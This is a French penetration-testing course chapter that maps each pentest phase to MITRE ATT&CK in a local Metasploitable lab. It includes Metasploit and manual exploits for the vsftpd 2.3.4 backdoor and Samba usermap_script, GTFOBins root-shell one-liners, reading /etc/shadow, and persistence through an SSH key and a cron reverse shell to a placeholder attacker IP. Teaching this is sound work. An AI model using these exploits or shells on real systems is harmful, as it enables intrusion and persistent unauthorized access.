

# Chapitre 02 : Tests de pénétration et exploitation

---

## Objectifs pédagogiques

- Construire une kill chain ATT&CK complète de la reconnaissance à l'exploitation
- Mapper les méthodologies OWASP/PTES sur les tactiques ATT&CK
- Réaliser une reconnaissance réseau complète avec nmap (T1046, T1595)
- Exploiter des services vulnérables vsftpd et SMB avec Metasploit
- Obtenir un shell et élever ses privilèges (TA0004 → TA0006)

---

## Introduction

Un pentest professionnel ne consiste pas à casser un système au hasard. C'est une démarche méthodique qui commence par la reconnaissance et se termine par l'accès aux ressources critiques.

Dans ce chapitre, chaque phase du pentest sera systématiquement taguée avec sa tactique MITRE ATT&CK. Vous construirez ainsi votre première **kill chain** — la chaîne complète qui relie chaque action de l'attaquant à une tactique et une technique du référentiel.

> **Sources :** [PTES Technical Guidelines](http://www.pentest-standard.org/) — Penetration Testing Execution Standard.

---

## Dépendances / Prérequis

- Docker et Docker Compose sur Kali
- Chapitre 01 terminé (notions ATT&CK, DVWA, nmap)
- Lancer : `docker-compose up -d vsftpd`

---

## 1. Méthodologies de pentest et ATT&CK Kill Chain

### PTES et OWASP → tactiques ATT&CK

Les deux méthodologies phares du pentest se superposent aux tactiques MITRE ATT&CK :

| Phase PTES/OWASP | Tactique ATT&CK | ID | Outils |
|---|---|---|---|
| Reconnaissance passive | Reconnaissance | TA0043 | whois, crt.sh, Shodan |
| Reconnaissance active | Discovery | TA0007 | nmap, dnsrecon |
| Identification vulnérabilités | Discovery | TA0007 | nmap NSE, nikto |
| Exploitation | Initial Access, Execution | TA0001, TA0002 | Metasploit, SearchSploit |
| Post-exploitation | Persistence, Privilege Escalation | TA0003, TA0004 | Mimikatz, LinPEAS |
| Latéralisation | Lateral Movement | TA0008 | PsExec, SSH pivot |

### Kill chain ATT&CK du jour



---

## 2. Reconnaissance — TA0043 / TA0007

### Reconnaissance passive (TA0043)

Sans jamais toucher la cible :

```bash
# WHOIS
whois <DOMAINE>

# Sous-domaines via Certificate Transparency
curl -s "https://crt.sh/?q=%25.<DOMAINE>&output=json" | jq '.[].name_value' | sort -u

# Shodan (navigateur ou CLI)
shodan search "apache country:FR"
```

### Reconnaissance active (TA0007 Discovery)

```bash
# Scan complet avec scripts par défaut
nmap -sV -sC -p- <IP> -oA recon/full_scan

# Scans spécifiques
nmap --script vuln <IP>
nmap --script smb-os-discovery <IP>
nmap --script ftp-* <IP>
```

### Script de reconnaissance automatisé

```python
#!/usr/bin/env python3
"""
Reconnaissance automatisée d'une cible.
Usage : python3 recon.py <IP>
"""

import subprocess
import json
import sys
from pathlib import Path

def run_nmap(target: str) -> dict:
    cmd = ["nmap", "-sV", "-sC", "-p-", target, "-oX", "-"]
    result = subprocess.run(cmd, capture_output=True, text=True)
    return {"raw": result.stdout, "success": result.returncode == 0}

def run_dirb(target: str, port: int = 80) -> dict:
    url = f"http://{target}:{port}"
    wordlist = "/usr/share/wordlists/dirb/common.txt"
    cmd = ["gobuster", "dir", "-u", url, "-w", wordlist, "-q"]
    result = subprocess.run(cmd, capture_output=True, text=True)
    return {"found": result.stdout.strip().split("\n") if result.stdout else []}

if __name__ == "__main__":
    target = sys.argv[1]
    Path("recon").mkdir(exist_ok=True)

    print(f"[*] TA0043/TA0007 — Reconnaissance de {target}\n")

    nmap_result = run_nmap(target)
    print("[+] Scan nmap terminé")

    dirb_result = run_dirb(target)
    if dirb_result["found"]:
        print(f"[+] Répertoires trouvés : {len(dirb_result['found'])}")

    with open("recon/report.json", "w") as f:
        json.dump({
            "target": target,
            "nmap_ok": nmap_result["success"],
            "dirs_found": len(dirb_result["found"])
        }, f, indent=2)
```

---

## 3. Exploitation vsftpd 2.3.4 — TA0001 Initial Access

### Le conteneur vsftpd

```bash
# Lancer le conteneur Metasploitable 2
docker-compose up -d vsftpd

# Vérifier les ports exposés
nmap -sV -p 21,22,445,3306 localhost -P0
```

Résultat attendu :

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1
445/tcp  open  netbios-ssn Samba smbd 3.0.20
3306/tcp open  mysql       MySQL 5.0.51a
```

### vsftpd 2.3.4 — la backdoor

La version 2.3.4 de vsftpd contient une backdoor : un shell est ouvert sur le port 6200 quand on se connecte avec un nom d'utilisateur contenant le smiley `:)`.

**Technique ATT&CK :** T1190 Exploit Public-Facing Application → Tactique TA0001 Initial Access

```bash
msfconsole -q

msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS localhost
msf6 > set RPORT 21
msf6 > run

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened
```

Point important : on obtient directement un shell root — pas besoin d'escalade.

### Exploitation manuelle (sans Metasploit)

```bash
# Connexion FTP avec le trigger
ftp localhost 21
Name: user:)
Password: pass

# Dans un autre terminal, connexion au shell
nc localhost 6200
whoami
# root
```

> **Sources :** [vsftpd 2.3.4 Backdoor — CVE-2011-2523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523). [Rapid7 Metasploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).

---

## 4. Exploitation SMB — TA0008 Lateral Movement

### Samba usermap script (CVE-2007-2447)

Le conteneur Metasploitable2 expose Samba 3.0.20 vulnérable sur le port 445.

**Technique ATT&CK :** T1210 Exploitation of Remote Services → TA0008 Lateral Movement

```bash
msf6 > search samba usermap
msf6 > use exploit/multi/samba/usermap_script
msf6 > set RHOSTS localhost
msf6 > set RPORT 445
msf6 > run

[*] Command shell session 2 opened
```

### Comparaison des exploits

| Exploit | Service | Port | Technique ATT&CK | Niveau |
|---|---|---|---|---|
| vsftpd 2.3.4 | FTP | 21 | T1190 | root |
| Samba 3.0.20 | SMB | 445 | T1210 | root |
| EternalBlue | SMBv1 | 445 | T1210 | SYSTEM (Windows) |

---

## 5. Élévation de privilèges — TA0004 Privilege Escalation

### Vecteurs d'escalade Linux

```bash
# Énumération des binaires SUID
find / -perm -4000 -type f 2>/dev/null

# Capacités Linux
getcap -r / 2>/dev/null

# Cron jobs éditables
cat /etc/crontab && ls -la /etc/cron*

# Sudo permissions
sudo -l

# Version kernel
uname -a
```

### Script d'énumération automatisé

```bash
#!/bin/bash
# Énumération rapide pour escalade de privilèges
echo "[*] TA0004 — Privilege Escalation Enumeration"
echo "========================================="

echo -e "\n[+] Distribution :"
cat /etc/os-release 2>/dev/null | head -3

echo -e "\n[+] Kernel :"
uname -a

echo -e "\n[+] Utilisateur courant :"
id

echo -e "\n[+] Fichiers SUID :"
find / -perm -4000 -type f 2>/dev/null | head -10

echo -e "\n[+] Sudo :"
sudo -l 2>/dev/null

echo -e "\n[+] Cron :"
cat /etc/crontab 2>/dev/null

echo -e "\n[+] Connexions réseau :"
ss -tulpn 2>/dev/null || netstat -tulpn
```

### Exploitation via GTFOBins

```bash
# Si /usr/bin/find est SUID :
find . -exec /bin/sh -p \; -quit
# Shell root obtenu

# Si /usr/bin/vim a sudo sans mot de passe :
sudo vim -c ':!bash'
```

> **Sources :** [GTFOBins](https://gtfobins.github.io/). [LinPEAS](https://github.com/carlospolop/PEASS-ng).

---

## Lab 2 : Kill chain complète sur Metasploitable

**Durée estimée :** 2h

**Contexte :** Conteneur vsftpd (Metasploitable 2). Machine Kali.

### Objectif

Réaliser une kill chain ATT&CK complète et la documenter : de la reconnaissance à la persistance.

### Étape 1 — Setup et reconnaissance (TA0007)

```bash
docker-compose up -d vsftpd
nmap -sV -p 21,22,445,3306 localhost -P0 | tee recon/nmap_vsftpd.txt
```

### Étape 2 — Exploitation (TA0001 → TA0002)

```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS localhost; set RPORT 21; run"
```

### Étape 3 — Post-exploitation

```bash
# Dans le shell Metasploit :
whoami     # root
hostname   # d8b... (ID conteneur)
id         # uid=0(root) gid=0(root)
cat /etc/shadow | head -5
ss -tulpn  # Services internes exposés
```

### Étape 4 — Persistance (TA0003)

```bash
# Persistance SSH
mkdir -p /root/.ssh
echo "VOTRE_CLE_PUBLIQUE_SSH" >> /root/.ssh/authorized_keys

# Persistance reverse shell cron
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/<KALI_IP>/5555 0>&1'" >> /etc/crontab
```

### Étape 5 — Documentation kill chain

| Étape | Tactic | Technique | Outil | Résultat |
|---|---|---|---|---|
| 1 | TA0007 Discovery | T1046 Network Scan | nmap -sV | vsftpd 2.3.4 identifié |
| 2 | TA0001 Initial Access | T1190 Exploit Public-Facing | Metasploit vsftpd | Shell root |
| 3 | TA0003 Persistence | T1098 Account Manipulation | echo >> authorized_keys | Clé SSH |

### Checkpoints

- [ ] nmap identifie vsftpd 2.3.4 sur port 21
- [ ] Exploit Metasploit donne un shell
- [ ] `whoami` = `root`
- [ ] `/etc/shadow` lisible
- [ ] Kill chain ATT&CK documentée (3 étapes minimum)

### Erreurs fréquentes

- **Port 21 non trouvé** : `docker-compose ps` vérifier que vsftpd est UP
- **Exploit échoue** : le port 6200 doit être accessible, vérifier avec `docker-compose ps vsftpd`
- **Shell instable** : `python3 -c "import pty; pty.spawn('/bin/bash')"`

---

## Exercices

### Exercice 1 : Construire une kill chain dans ATT&CK Navigator

**Énoncé :** Documentez votre kill chain du lab dans ATT&CK Navigator. Exportez le JSON.

<details>
<summary><strong>Solution</strong></summary>

1. Navigator → New Layer → Enterprise ATT&CK
2. Ajouter les techniques :
   - **T1046** (Network Service Scanning) — bleu
   - **T1190** (Exploit Public-Facing Application) — rouge
   - **T1059.004** (Unix Shell) — rouge
   - **T1098** (Account Manipulation) — orange
3. Export → Download as JSON
</details>

### Exercice 2 : Exploiter le second vecteur — Samba

**Énoncé :** Exploitez Samba 3.0.20 sur le port 445 avec `usermap_script`. Comparez les deux exploits.

<details>
<summary><strong>Solution</strong></summary>

```bash
msf6 > use exploit/multi/samba/usermap_script
msf6 > set RHOSTS localhost
msf6 > set RPORT 445
msf6 > run
# Shell root obtenu directement
```

Comparaison :
- vsftpd : FTP/21, backdoor au login, shell sur port 6200
- Samba : SMB/445, exécution directe via usermap, shell immédiat
- Technique ATT&CK différente : T1190 vs T1210
</details>

### Exercice 3 : Énumération d'escalade sur VM Linux

**Énoncé :** Sur votre VM Kali ou une VM Linux locale, exécutez le script d'énumération. Identifiez au moins 2 vecteurs potentiels et mappez-les à ATT&CK.

<details>
<summary><strong>Solution</strong></summary>

```bash
chmod +x enum_priv_esc.sh && ./enum_priv_esc.sh
```

Mapping :
- `find` SUID → T1548.001 Setuid and Setgid
- `sudo vim` sans mot de passe → T1548.003 Sudo Caching
- Kernel 4.15.0 → T1068 Exploitation for Privilege Escalation
</details>

---

## Points clés à retenir

- Chaque phase du pentest se mappe à une tactique ATT&CK : TA0043 → TA0007 → TA0001 → TA0002 → TA0004
- La reconnaissance (TA0007) est la phase la plus critique
- Un exploit réussi = Initial Access (TA0001) + Execution (TA0002)
- L'escalade (TA0004) est une tactique à part entière
- La kill chain documentée est un livrable du rapport de pentest

## Pour aller plus loin

- [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [HackTheBox Academy](https://academy.hackthebox.com/)
- [GTFOBins](https://gtfobins.github.io/)

---

*Chapitre précédent : [Jour 1 — Introduction](./JOUR-01.md)*
*Chapitre suivant : [Jour 3 — Vulnérabilités avancées](./JOUR-03.md)*
